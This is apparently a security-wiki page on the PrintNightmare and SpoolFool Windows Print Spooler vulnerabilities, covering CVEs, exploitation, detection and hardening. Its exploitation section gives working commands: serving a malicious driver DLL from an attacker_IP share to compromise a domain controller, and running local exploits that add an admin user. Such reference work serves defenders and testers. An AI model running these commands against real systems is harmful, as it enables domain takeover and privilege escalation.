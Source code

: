 # PrintNightmare (Windows Print Spooler RCE/LPE)

{{#include ../../banners/hacktricks-training.md}}

> PrintNightmare is the collective name given to a family of vulnerabilities in the Windows **Print Spooler** service that allow **arbitrary code execution as SYSTEM** and, when the spooler is reachable over RPC, **remote code execution (RCE) on domain controllers and file servers**. The most-widely exploited CVEs are **CVE-2021-1675** (initially classed as LPE) and **CVE-2021-34527** (full RCE). Subsequent issues such as **CVE-2021-34481 (“Point & Print”)** and **CVE-2022-21999 (“SpoolFool”)** prove that the attack surface is still far from closed.

---

## 1. Vulnerable components & CVEs

| Year | CVE | Short name | Primitive | Notes |
|------|-----|------------|-----------|-------|
|2021|CVE-2021-1675|“PrintNightmare #1”|LPE|Patched in June 2021 CU but bypassed by CVE-2021-34527|
|2021|CVE-2021-34527|“PrintNightmare”|RCE/LPE|AddPrinterDriverEx allows authenticated users to load a driver DLL from a remote share|
|2021|CVE-2021-34481|“Point & Print”|LPE|Unsigned driver installation by non-admin users|
|2022|CVE-2022-21999|“SpoolFool”|LPE|Arbitrary directory creation → DLL planting – works after 2021 patches|

All of them abuse one of the **MS-RPRN / MS-PAR RPC methods** (`RpcAddPrinterDriver`, `RpcAddPrinterDriverEx`, `RpcAsyncAddPrinterDriver`) or trust relationships inside **Point & Print**.

## 2. Exploitation techniques

### 2.1 Remote Domain Controller compromise (CVE-2021-34527)

An authenticated but **non-privileged** domain user can run arbitrary DLLs as **NT AUTHORITY\SYSTEM** on a remote spooler (often the DC) by:

```powershell
# 1. Host malicious driver DLL on a share the victim can reach
impacket-smbserver share ./evil_driver/ -smb2support

# 2. Use a PoC to call RpcAddPrinterDriverEx
python3 CVE-2021-1675.py victim_DC.domain.local  'DOMAIN/user:Password!' \
       -f \
       '\\attacker_IP\share\evil.dll'
```

Popular PoCs include **CVE-2021-1675.py** (Python/Impacket), **SharpPrintNightmare.exe** (C#) and Benjamin Delpy’s `misc::printnightmare / lsa::addsid` modules in **mimikatz**.

### 2.2 Local privilege escalation (any supported Windows, 2021-2024)

The same API can be called **locally** to load a driver from `C:\Windows\System32\spool\drivers\x64\3\` and achieve SYSTEM privileges:

```powershell
Import-Module .\Invoke-Nightmare.ps1
Invoke-Nightmare -NewUser hacker -NewPassword P@ssw0rd!
```

### 2.3 SpoolFool (CVE-2022-21999) – bypassing 2021 fixes

Microsoft’s 2021 patches blocked remote driver loading but **did not harden directory permissions**. SpoolFool abuses the `SpoolDirectory` parameter to create an arbitrary directory under `C:\Windows\System32\spool\drivers\`, drops a payload DLL, and forces the spooler to load it:

```powershell
# Binary version (local exploit)
SpoolFool.exe -dll add_user.dll

# PowerShell wrapper
Import-Module .\SpoolFool.ps1 ; Invoke-SpoolFool -dll add_user.dll
```

> The exploit works on fully-patched Windows 7 → Windows 11 and Server 2012R2 → 2022 before February 2022 updates 

---

## 3. Detection & hunting

* **Event Logs** – enable the *Microsoft-Windows-PrintService/Operational* and *Admin* channels and watch for **Event ID 808** “The print spooler failed to load a plug-in module” or for **RpcAddPrinterDriverEx** messages.
* **Sysmon** – `Event ID 7` (Image loaded) or `11/23` (File write/delete) inside `C:\Windows\System32\spool\drivers\*` when the parent process is **spoolsv.exe**.
* **Process lineage** – alerts whenever **spoolsv.exe** spawns `cmd.exe`, `rundll32.exe`, PowerShell or any unsigned binary .

## 4. Mitigation & hardening

1. **Patch!** – Apply the latest cumulative update on every Windows host that has the Print Spooler service installed.
2. **Disable the spooler where it is not required**, especially on Domain Controllers:
   ```powershell
   Stop-Service Spooler -Force
   Set-Service Spooler -StartupType Disabled
   ```
3. **Block remote connections** while still allowing local printing – Group Policy: `Computer Configuration → Administrative Templates → Printers → Allow Print Spooler to accept client connections = Disabled`.
4. **Restrict Point & Print** so only administrators can add drivers by setting the registry value:
   ```cmd
   reg add "HKLM\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint" \
           /v RestrictDriverInstallationToAdministrators /t REG_DWORD /d 1 /f
   ```
   Detailed guidance in Microsoft KB5005652 

---

## 5. Related research / tools

* [mimikatz `printnightmare`](https://github.com/gentilkiwi/mimikatz/tree/master/modules) modules  
* SharpPrintNightmare (C#) / Invoke-Nightmare (PowerShell)  
* SpoolFool exploit & write-up  
* 0patch micropatches for SpoolFool and other spooler bugs  

---

**More reading (external):** Check the 2024 walk-through blog post – [Understanding PrintNightmare Vulnerability](https://www.hackingarticles.in/understanding-printnightmare-vulnerability/)



## References

* Microsoft – *KB5005652: Manage new Point & Print default driver installation behavior*  
  <[https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872](https://support.microsoft.com/en-us/topic/kb5005652-manage-new-point-and-print-default-driver-installation-behavior-cve-2021-34481-873642bf-2634-49c5-a23b-6d8e9a302872)>
* Oliver Lyak – *SpoolFool: CVE-2022-21999*  
  <[https://github.com/ly4k/SpoolFool](https://github.com/ly4k/SpoolFool)>
{{#include ../../banners/hacktricks-training.md}}
